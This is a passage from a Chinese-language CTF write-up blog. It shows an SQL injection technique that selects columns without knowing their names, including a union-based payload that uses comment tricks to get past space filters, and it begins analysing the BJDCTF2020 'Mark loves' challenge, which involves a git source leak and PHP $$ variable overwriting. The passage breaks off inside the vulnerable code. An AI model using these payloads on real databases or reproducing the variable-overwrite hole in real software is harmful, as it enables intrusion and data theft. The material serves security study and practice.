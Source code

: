 ```
# `3`对应第三列，这里没有别名会报错所以加了as a
select `3` from (select 1,2,3 union select * from users) as a;
```

![](https://i.loli.net/2021/07/15/Fi6jdWOxfmJ1t3E.png)

如果反引号被过滤就使用字符：

```
# 直接在末尾加任意字符也等于取别名
select b from (select 1,2,3 as b,4,5 union select * from users)a;
```



那么构造payload,一开始查FLAG_TABLE说没有这个表，后面都查了一下发现除了users可以其他都显示不存在该表

```
1'/**/union/**/select/**/1,(select/**/group_concat(hh)/**/from/**/(select/**/1,2,3/**/as/**/hh/**/union/**/select/**/*/**/from/**/gtid_slave_pos)xixi),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/'
```



## 2021.7.16

前言:今天跑去搞马原实践，太阳又毒又辣，回来吃麦当劳送杯子哈哈哈，其实是为了杯子去吃的，回来直接躺下睡大觉了，起来洗完澡已经是8点，配环境又搞了1个半小，差点emo了

### [BJDCTF2020]Mark loves——git源码泄漏、$$变量覆盖

得到一个前端页面，目录扫描，git源码泄漏拿到源码
(wp居然看不懂。。。自己分析--)

flag.php:

```php
<?php
$flag = file_get_contents('/flag');
```

index.php

```php
<?php
include 'flag.php';
$yds = "dog";
$is = "cat";
$handsome = 'yds';

# foreach post和get：传参的参数键名 => 参数值
foreach($_POST as $x => $y){
    $$x = $y;	# 传入hhh=123,代入得到$hhh=123;
}

foreach($_GET as $x => $y){
    $$x = $$y;	# 传入hhh=123,代入得$hhh=$123;而传入$hhh=$123则$$hhh=$$123得到这里明显是变量覆盖
}

foreach($_GET as $x => $y){	#get的参数flag的值=键名$x，且键名$x能存在flag 则->$$handsome
    if($_GET['flag'] === $x && $x !== 'flag'){	
        exit($handsome); # yds
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){ # 不存在get和post参数flag 则->$yds
    exit($yds); # dog
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){ # post或get的flag参数的值为flag 则->$is
```